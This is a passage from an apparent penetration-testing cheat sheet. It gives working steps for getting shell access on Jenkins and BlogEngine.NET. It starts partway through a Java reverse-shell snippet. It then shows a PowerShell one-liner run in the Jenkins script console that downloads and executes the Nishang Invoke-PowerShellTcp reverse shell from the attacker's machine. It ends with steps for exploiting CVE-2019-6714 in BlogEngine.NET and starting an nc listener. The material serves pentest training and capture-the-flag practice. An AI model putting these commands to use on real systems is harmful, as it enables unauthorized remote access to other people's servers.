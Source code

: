 ```powershell
try {p.exitValue();
break;
}
catch (Exception e){}};
p.destroy();
s.close();
```

Alternatively if you want to use Powershell then you can let Jenkins download Powershell reverse shell from your machine and execute it on the target. First download the script from below link

```
https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1
```

then use the below command with python to host it on your machine

```
python3 -m http.server
```

And lastly paste the below in the script console and don't forget to change the parameters to fit your scenario

```powershell
_powershell iex (New-Object Net.WebClient).DownloadString('http://your-ip:your-port/Invoke-PowerShellTcp.ps1');
Invoke-PowerShellTcp -Reverse -IPAddress your-ip -Port your-port_
```

### BlogEngine.Net Blogging Platform

#### Definition

BlogEngine is platform to create and build blogs using .NET framework

#### Impact

Successful exploitation of this vulnerability leads to establishing first foothold access with shell access.

#### Manual Exploitation

**CVE-2019-6714** `Affected Versions`: 3.3.6 and below One of the most popular vulnerabilities out there. The exploit is found in the link below

```
https://www.exploit-db.com/exploits/46353
```

* Download the exploit and modify the IP/PORT to correspond to the ones of your machine.
* After you have downloaded the script, rename it so that the extension is `ascx`.
* Run the listener on your machine

```
nc -lvp 4545
```
